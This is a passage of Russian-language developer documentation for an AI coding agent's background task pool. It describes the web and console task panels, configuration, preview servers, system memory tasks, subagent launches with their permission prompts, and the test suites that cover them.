- **Открывает** панель кнопка **Задачи** у правого края заголовка чата. Заголовок закреплён, поэтому кнопка не уезжает вместе с транскриптом, и она есть с первого сообщения - в чате, где ещё не запускали задач, на ней написано `Tasks`, а где запускали, сколько задач выполняется из скольких (`Tasks 1 / 3`, затем `Tasks 0 / 3`, когда всё завершится). Первый щелчок открывает панель, второй закрывает. Пока идёт ход, [живая строка статуса](../surfaces/web-ui.md#живой-статус-рядом-с-точками-набора) тоже называет выполняющиеся задачи, и это название служит кнопкой, ведущей в ту же панель. Ни одно из чисел не учитывает [системные задачи](#системные-задачи), поэтому запуск памяти в каждом ходе не выглядит задачей, которую запустила модель. В навигационной панели этой кнопки намеренно нет, потому что фоновые задачи принадлежат одному чату;



*Панель задач, открытая кнопкой в заголовке чата - субагент и команда ещё работают, а завершённая сборка раскрыта на месте со своей командой, выводом и кодом выхода*
- Строка инструмента в транскрипте, которая запустила задачу, называет себя фоновым запуском и показывает часы задачи там, где обычная строка показывает длительность, в свёрнутом и в раскрытом виде; своих кнопок управления задачей у неё нет. О том, чем закончился запуск, она ничего не говорит - статус, оценку, код выхода и ошибку читают на карточке задачи в панели, которую открывает кнопка **Задачи**, а пока задача выполняется, остановить её можно на этой карточке;

- Ход, в который агента разбудили, ничего своего не показывает, ни облачка пользователя, ни пометки - ответ идёт сразу за предыдущим ходом, а что разбудило агента, говорит колокольчик на карточке задачи ([Пробуждение агента](#как-выглядит-ход-после-пробуждения)).

Контракты раскладки, цветов и мобильной версии описаны в `DESIGN.md` (**Background tasks panel**, **Background task on a transcript row**, **Woken turn**).

## В консоли

Агент добирается до пула через свои инструменты, а оператор - через `/tasks`, которая открывает задачи сессии на месте редактора ([Консоль](../surfaces/console.md#команды-и-клавиши)). Строка говорит те же три вещи, что и карточка веб-интерфейса, - тег (`shell`, имя агента, `memory`), заголовок и как идут дела у задачи, в том же порядке, сначала новые. **enter** открывает задачу - команду, дочернюю сессию запуска агента, ошибку, которой задача закончилась, последние строки вывода, которые перечитываются, пока задача идёт. **s** останавливает выполняющуюся задачу и всё, что она запустила, **r** перечитывает, **escape** возвращает назад.

Пока идёт ход, строка статуса считает выполняющиеся задачи (`2m 05s · 1.2k tokens · 1 running task · Responding`), а когда ход закончился, футер сохраняет счётчик вместе с командой, которая их перечисляет (`1 task running (/tasks)`), потому что фоновая задача переживает запустивший её ход. Ни один из счётчиков не учитывает [системные задачи](#системные-задачи).

Консоль читает задачи через три метода своего бэкенда. `session.Manager` отвечает из пула этого процесса и из бандла прежнего (`bgtask.Pool.SessionTasks`, то же чтение, что и у строк HTTP), а под `--remote` отвечает `remote.Handler` через три REST-маршрута выше, поэтому оверлей перечисляет и останавливает процессы того сервера, на котором работает агент. Если сервер недоступен, на экране остаются последние строки, потому что недоступность не означает "задач нет".


*`/tasks` в консоли - выполняющаяся команда, её тег и её часы относительно оценки*

## Конфигурация

См. `tools.background` в `docs/reference/config.md`.

```yaml
tools:
  background:
    enable: true
    max_concurrent: 5
    default_timeout_seconds: 900
    max_timeout_seconds: 3600
    output_buffer_bytes: 262144
```

`enable: false` убирает параметр `background` из `run_command` и вовсе не регистрирует фоновые инструменты. Запуски субагентов (`docs/features/subagents.md`) живут в том же пуле, поэтому `max_concurrent`, `max_timeout_seconds` и `output_buffer_bytes` ограничивают и их; `subagents.*` добавляет общий для процесса предел дочерних запусков, глубину вложенности и тайм-аут запуска по умолчанию.

## Серверы предпросмотра

Третий вид задачи - не команда и не запуск агента. `kind: server` - статический файловый сервер, который инструмент `preview_server` запускает над каталогом проекта ([Сервер предпросмотра](preview-server.md)). Это горутины процесса Coddy, запущенные через тот же колбэк, что и запуск субагента, поэтому у сервера нет pid, нет кода выхода, который стоило бы показывать, и после сбоя `background_reap` нечего искать. Его строка несёт `url`, адрес, на котором он отвечает. Пока сервер работает, панель задач показывает адрес ссылкой прямо на карточке, раскрывать ничего не нужно (так же запуск субагента несёт **Показать транскрипт**), `/tasks` показывает ту же строку, `background_list` печатает адрес после метки, а `background_output` отдаёт журнал запросов.

Кроме того, это единственный вид задачи без жёсткого лимита. У страницы, которую оператор попросил держать открытой, нет длительности, которую можно оценить, поэтому пул не заводит для неё таймер, а `timeout_seconds` равен `0`; досрочно её завершает только `timeout_seconds` в самом вызове `preview_server`, применённый как есть и без ограничения `max_timeout_seconds`. Тихий сервер никогда не помечается `silent for …`. В остальном жизненный цикл обычный - сервер учитывается в `max_concurrent`, его завершают `background_stop` и кнопка остановки, удаление сессии или сворачивание процесса его гасят, а запись, которую умерший процесс оставил в состоянии `running`, возвращается как `orphaned`.

## Системные задачи

Задача, которую среда выполнения запускает от своего имени (сейчас это субагент памяти пользовательского хода, [Долговременная память](memory.md)), - задача `kind: agent`, у которой объект `agent` содержит `system: true`. Она проходит мимо `tools.background.max_concurrent` и никогда в него не засчитывается, потому что этот предел ограничивает работу, которую запускает модель, а запуск на каждый ход отказывал бы следующей команде модели; инструменты для модели (`background_list`, `background_output`, `background_wait`, `background_stop`) её пропускают и отказываются принимать её идентификатор, а строки REST и панель задач её показывают, с тегом `memory` на карточке. Сворачивание останавливает её, как любую задачу, после отсрочки для запуска, который ещё сохраняет данные.

## Запуски субагентов

Пул намеренно ничего не знает об оболочках. Что *представляет собой* задача, определяет тот, кто её запускает, - `CommandRunner` для команды оболочки или колбэк запуска для работы, которую пул не может описать как команду.

```go
type Handle interface {
	Wait() (exitCode int, err error)
	Stop(grace time.Duration) error
	PID() int
	ProcessStartedAt() time.Time
}

type LaunchFunc func(taskID string, out io.Writer) (Handle, error)
```

**Запуск субагента** (`docs/features/subagents.md`) - задача вида `agent`, запущенная через `Pool.Launch(spec, launch)`. `Launch` идёт тем же единственным путём планирования, что `Start` и `Adopt`. Сначала выполняется допуск (лимит на сессию, сворачивание), поэтому `ErrPoolFull` или `ErrDraining` гарантируют, что колбэк не вызывался и ничего не создано; затем пул назначает и регистрирует идентификатор задачи и только после этого вызывает колбэк с этим идентификатором и приёмником вывода задачи, поэтому дочерняя сессия создаётся, уже зная, к какой задаче относится. Колбэк возвращает `Handle`, у которого `Stop` отменяет контекст дочернего агента, а `Wait` блокируется, пока запуск не завершится. `PID` равен 0, а `ProcessStartedAt` - нулевое время, поэтому проверка выживших никогда не примет такую задачу за pid, который можно убить.

Что это меняет снаружи:

- `Spec.Agent` и `Snapshot.Agent` несут данные агента, которые сериализуются как `"agent": {"name": "…", "session_id": "sess_…"}` в строке задачи, в `GET .../background-tasks` и в сохранённом `meta.json`. Идентификатор дочерней сессии генерируется до того, как подключается пул, поэтому он есть уже в самом первом опубликованном снимке. Без явной метки строка выглядит как `agent <name>`; среда выполнения задаёт `agent <name>: <description>`;
- Журнал вывода показывает ход работы дочернего агента - по строке `[assistant]` на каждую строку текста ассистента, `→ tool` при старте, `✓` / `✗ tool` при завершении и заключительный блок, начинающийся с `=== subagent report ===`, с исходом, числом ходов, длительностью и последним сообщением дочернего агента. `background_output` и `background_wait` возвращают его, как любой другой журнал;
- **Остановка отменяет дочернего агента.** `background_stop`, кнопка остановки в панели, `POST .../stop`, удаление сессии и сворачивание сервера идут через дескриптор задачи, который отменяет ход дочернего агента; пул ждёт, пока запуск завершится, и только потом сообщает `stopped`;
- Карточка запуска несёт имя агента в качестве тега, а на самой карточке, без раскрытия, видны модель, на которой работает дочерний агент, токены, потраченные его вызовами, время работы и **Показать транскрипт**, ведущая в дочернюю сессию (`#/s/<child id>`), транскрипт только для чтения, который не попадает в "Историю". У задачи оболочки ничего этого нет - ни модели, ни транскрипта, только прошедшее время и, в раскрытой карточке, текст вывода;
- **Отсоединённый дочерний агент, которому нужен ответ на запрос разрешения, спрашивает в чате родителя.** Когда запустивший его ход закончился, потока чата, который донёс бы запрос, уже нет, поэтому под `coddy serve` с HTTP-интерфейсом запрос прикрепляется к строке работающего агента как `pending_permission` (полезная нагрузка SSE-события `permission` с идентификатором **дочерней** сессии, а также `parent_session_id`, `task_id`, `agent_name` и `asked_at`) и объявляется в `GET /coddy/events` как `subagent_permission`. Веб-интерфейс показывает его в конце чата родительской сессии с превью запроса и кнопками **Разрешить** / **Отклонить**, которые отвечают через `POST /coddy/sessions/{child}/permission`; тот же запрос доходит до консоли, подключённой через `--remote`, а для Telegram-сессии - до чата. Ожидающая задача продолжает работать и сохраняет свой тайм-аут, выдвижная панель сохраняет частый интервал опроса, а из запроса ничего не сохраняется. См. `docs/features/subagents.md` (раздел "Отсоединённые запуски");
- Запуск - задача **родительской** сессии, поэтому он засчитывается в `max_concurrent` родителя, как фоновая команда. Работа, которую дочерний агент запускает сам (фоновый `run_command`, внук), регистрируется под идентификатором сессии **дочернего** агента и сохраняется в его бандле; её останавливают и дожидаются, прежде чем дочерний агент закроется. Сколько циклов LLM дочерних агентов весь процесс может выполнять одновременно, задаёт отдельный общий для процесса предел `subagents.max_concurrent`.

Всё остальное в этом документе применяется без изменений - тайм-ауты (запуск приходит с явным `TimeoutSeconds`, который вычислила среда выполнения, и ограничивается `max_timeout_seconds`, как любая другая задача), хранение, сворачивание, пометка осиротевших после перезапуска и HTTP-интерфейс.

**Запуск по расписанию** ([Планировщик](../operate/scheduler.md)) - задача того же вида, но под **сессией задания**, а не под чатом. Панель запусков планировщика - эта же панель, встроенная в выдвижную панель планировщика и опрашивающая `GET /coddy/sessions/{job session}/background-tasks`, а её кнопка "Очистить" идёт через `DELETE /coddy/scheduler/jobs/{job_id}/runs`, чтобы транскрипты запусков удалялись вместе с записями задач. Когда дочерний агент или запуск по расписанию закрывается, его собственные завершённые задачи покидают память пула (`Pool.ReleaseSession`), а записи остаются в его бандле; политика хранения планировщика удаляет старые запуски по одному (`Pool.Forget`).

## Тесты

- Основные сценарии описаны спецификациями Gherkin, которые выполняет godog, - `features/background_tasks.feature` (поведение пула через инструменты, `internal/tools/shell/bdd_background_test.go`), `features/background_reap.feature` (оставшиеся процессы прежнего запуска, `internal/tools/shell/bdd_background_reap_test.go`, который бросает настоящий второй пул над тем же бандлом, а не подменяет перезапуск заглушкой), `features/background_tasks_http.feature` (REST-интерфейс, `external/httpserver/bdd_background_test.go`), `features/background_permissions.feature` (разрешение на всю программу, `internal/permission/bdd_background_permissions_test.go`) и `features/foreground_timeout_adoption.feature` (передача в пул команды переднего плана, пережившей тайм-аут, `internal/tools/shell/bdd_foreground_timeout_test.go`);
- Способы открыть панель в веб-интерфейсе описаны в `features/background_tasks_web_ui.feature`, а сегмент выполняющихся задач в живой строке - в `features/turn_progress_web_ui.feature` (`external/ui/bdd_turn_progress_ui_test.go`, каждый шаг - один именованный тест vitest);
- Раздел выполняющихся задач в контексте хода закреплён в `internal/agent/turn_context_tasks_test.go` - выполняющаяся задача перечисляется так же, как в `background_list`, системная задача и задача другой сессии не перечисляются, остановленная задача уходит из блока, а при выключенных фоновых запусках ничего не пишется;
- Граничные случаи проверяют обычные модульные тесты - вычисление тайм-аута, предел параллельности, усечение окна вывода, пометку осиротевших, уникальность идентификаторов между перезапусками (`internal/bgtask`), отказ в разрешении при метасимволах (`internal/permission`) и вспомогательные функции UI (`external/ui/src/ui/tasks/`);
- У проверки живости процесса свои тесты в `internal/platform` - `procgroup_test.go` для того, что обязаны обеспечить обе платформы (работающий процесс находится, завершившийся нет, проверку можно повторять), и `procgroup_windows_test.go` для того, в чём может ошибиться только Windows (сообщить, что убитый процесс жив, потому что его дескриптор ещё открыт, принять время создания, которого нет в записи, и убить pid по такой записи). Чтение бандла, записанного до появления `process_started_at`, закреплено в `internal/bgtask` (`TestLoadPersistedLeavesALegacyRecordWithoutAProcessIdentity`);
- Запуски субагентов в пуле описаны в `features/subagents.feature` (`internal/agent/bdd_subagents_test.go`), `features/subagents_http.feature` (`external/httpserver/bdd_subagents_test.go`, включая запрос отсоединённого агента, объявленный в потоке событий и отвеченный через дочернюю сессию), `features/subagents_detached_prompts.feature` (`internal/serve`) и `features/subagents_web_ui.feature` (запрос, на который отвечают в чате родителя); порядок в `Pool.Launch` и сохранение `Snapshot.Agent` проверяют модульные тесты в `internal/bgtask`. См. `docs/features/subagents.md`;
- Сторона консоли описана в `features/cli_tui.feature` (оверлей над настоящей командой в пуле - список, вывод, остановка; числа хода в строке статуса) и `features/cli_remote.feature` (тот же оверлей и строка `turn_progress` на поддельном удалённом сервере), а отрисовку и клавиши оверлея, счётчик выполняющихся задач и интервал опроса проверяет `external/cli/tasks_test.go`. `examples/cli/capture_tasks.py` гоняет настоящий бинарник в pty с моделью, которая отвечает по сценарию, и снимает кадры для этой страницы и руководства по консоли;
- Сервер предпросмотра описан в `features/preview_server.feature` (`internal/tools/preview/bdd_preview_server_test.go` - настоящий пул, настоящий каталог и настоящий HTTP-клиент), отказы (каталог вне рабочей папки, файлы с точкой в начале имени, чужой `Host`, симлинк за пределы корня) - в `internal/tools/preview/preview_test.go`, а задача без таймера - в `internal/bgtask`;
- Сквозные тесты с настоящей моделью - `examples/httpserver/http_e2e_background.py`, `examples/httpserver/http_e2e_background_reap.py` (убивает собственный coddy посреди задачи и заставляет новый убрать за ним), `examples/acp/acp_e2e_background.py` и `examples/httpserver/http_e2e_preview_server.py` для серверного вида задач.

<!-- docsgen:source sha256=3df07cc61b139228 -->
